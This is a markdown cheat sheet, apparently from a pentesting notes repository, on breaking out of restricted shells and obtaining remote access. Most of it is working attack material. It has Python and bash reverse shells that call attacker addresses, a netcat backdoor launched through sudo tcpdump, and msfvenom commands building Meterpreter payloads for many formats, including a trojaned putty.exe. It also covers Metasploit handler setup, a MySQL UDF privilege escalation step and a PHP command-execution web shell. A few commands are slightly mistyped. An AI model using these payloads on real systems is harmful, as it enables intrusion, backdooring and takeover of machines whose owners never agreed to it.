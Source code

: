 Spawning a TTY Shell - Break out of Jail or limited shell
-----
**PYTHON**

python -c 'import pty; pty.spawn("/bin/bash")'

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM); s.connect(("$ip",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\["/bin/sh","-i"\]);'

python: exit_code = os.system('/bin/sh') output = os.popen('/bin/sh').read()

Plesse check below:   

PS1='\e[33;1m\u@\h: \e[31m\W\e[0m\$

**BASH**

bash -i >& /dev/tcp/$attacker_IP/4444 0>&1  // from the victim to your IP. nc -lvvp should be listening
echo os.system('/bin/bash')
OR        
`/bin/sh -i`
OR        
`:! /bin/bash`
OR        
`':!bash':`   //from vim
OR        
`:!bash`    // from vi
OR        
`!sh`    //from nmap

Plesse check below:
`:set shell=/bin/bash:shell`

echo $’id\\n/bin/netcat $ip 443 –e /bin/bash’ > /tmp/.test chmod +x /tmp/.test sudo tcpdump –ln –I eth- -w /dev/null –W 1 –G 1 –z /tmp/.tst –Z root      //from tcpdump

open vi or vim and type:   //from vi
:set shell=/bin/bash
Next, type and execute
:shell

awk 'BEGIN {system("/bin/sh")}'

find / -name blahblah 'exec /bin/awk 'BEGIN {system("/bin/sh")}' \;

-----
 After you use the 'more', 'less', or 'man' command with a file, type '!' followed by a command. For instance, try the following once inside the file. // more, less, man commands

echo "evil script code" | tee script.sh      // tee -a to append at the end of the file

 == Files Executed in Unrestricted Mode? ==

Some restricted shells will start by running some files in an unrestricted mode before the restricted shell is applied. If your .bash_profile is executed in an unrestricted mode and it's editable, you'll be able to execute code and commands as an unrestricted user.

**OTHERS**

perl -e 'exec "/bin/sh";'   
perl: exec "/bin/sh";   
ruby: exec "/bin/sh"   
lua: os.execute('/bin/sh')   
irb(main:001:0> exec "/bin/sh"    
lua: `os.execute('/bin/sh')`     
`exec "/bin/sh"`     // from IRB   
select sys_exec('usermod -a -G admin john'); // from mysql command prompt. Then use sudo su and inser john's password.    

First things first, for the MySQL UDF to work - MySQL has to be running with root privileges, so let’s check.   
john@Kioptrix4:/var/www$ ls -la /usr/lib/lib_mysqludf_sys.so   
-rw-rw-rw- 1 root root 12896 2012-02-04 10:08 /usr/lib/lib_mysqludf_sys.so  


**== Upgrading half shells to fully interactive TTYs without closing nc session. ==**

python -c 'import pty; pty.spawn("/bin/bash")'

background remote shell with Ctrl+Z    // on victim machine

stty -a | grep rows    //on attacking machine  
speed 38400 baud; rows 55; columns 205; line = 0;  
echo $TERM     // on attacking machine  
sty raw echo   // attacking machine  
fg             // attacking machine  
reset          // attacking machine  
export TERM=xterm-256color //on victim machine  
export SHELL=BASH          //on victim machine  
stty rows 55 columns 205   //on victim machine. See stty -a  

**SHELLS:**

MSFVENOM
    
 List payloads
 msfvenom -l
 
            == Binaries ==
 Linux
 msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
 msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.31.139 LPORT=8443 -f elf-so > shell.so
    
 Windows
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
 
 msfvenom -a x86 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=10.11.0.159 -e x86/shikata_ga_nai -i 5 -b "\x00" -f exe -o putty1.exe

 *Linux Based Shellcode* - generic
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>

*Windows Based Shellcode* - generic
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
 
           == Web payloads ==
  
PHP
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

ASP
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp

JSP
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.0.159 LPORT=53 R > cmd.jsp

WAR
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war

            == Scripting Payloads ==

Python
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py

BASH
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh

Perl
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl

          == HANDLERS ==
 Setup metasploit to receive shells easily.
 
use exploit/multi/handler
set PAYLOAD <Payload name>
set LHOST <LHOST value>
set LPORT <LPORT value>
set ExitOnSession false
exploit -j -z

mssf > use exploit/multi/handler 
msf exploit(handler) > setg PAYLOAD java/jsp_shell_reverse_tcp
PAYLOAD => java/jsp_shell_reverse_tcp
set LHOST 10.11.0.159
set LPORT 4343
LPORT => 4343
msetg SHELL cmd.exe
exploit -j -z

-----
SSH to Meterpreter: https://daemonchild.com/2015/08/10/got-ssh-creds-want-meterpreter-try-this/

         use auxiliary/scanner/ssh/ssh_login
         use post/multi/manage/shell_to_meterpreter


**REVERSE SHELLS**  
 -----
  python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.0.128",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
 
 
 Pen test monkey PHP reverse shell  
    [http://pentestmonkey.net/tools/web-shells/php-reverse-shel](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)

-   php-findsock-shell - turns PHP port 80 into an interactive shell  
    [http://pentestmonkey.net/tools/web-shells/php-findsock-shell](http://pentestmonkey.net/tools/web-shells/php-findsock-shell)

-   Perl Reverse Shell  
    [http://pentestmonkey.net/tools/web-shells/perl-reverse-shell](http://pentestmonkey.net/tools/web-shells/perl-reverse-shell)

-   PHP powered web browser Shell b374k with file upload etc.  
    [https://github.com/b374k/b374k](https://github.com/b374k/b374k)

-   Windows reverse shell - PowerSploit’s Invoke-Shellcode script and inject a Meterpreter shell 
    https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-Shellcode.ps1
  
-   PHP shell. Execute some PHP code on a HTML/PHP page ==

<?php
$output = shell_exec('ls ../../');
echo "<pre>$output</pre>";
?>

**TIPS**:
-----
- run 'env' command to see PATH and how profile is configured.
- list the PATH directories with 'echo /some/folder/*' or just use ls.
- see what commands you can use from above and iterate through other accessible folders

Change PATH or SHELL Environment Variables
-----
'export -p' to see the exported variables in the shell.
    -x - is execute only
    -w - is write too <<<<<<
   
If the SHELL variable is writeable, you can simply set it to your shell of choice (i.e. sh, bash, ksh, etc...).
If the PATH variable is writeable, then you'll be able to set it to any directory you want. I recommend setting it to one that has commands vulnerable to shell escapes.
   
**COPY FILES**
-----
ls -alh /some/folder from $PATH and see if you can write in there
If yes, then simply copy commands into the PATH that have known shell escapes. OR write your script and write it here.
   
   - copy files to your home directory and try to execute.
   -- if not able to copy, mount devices or filesystems
   -- copy using SCP, FTP, rsync

Find other writable directories and upload your script there.
Create a symbolic link in a directory where you have write access.
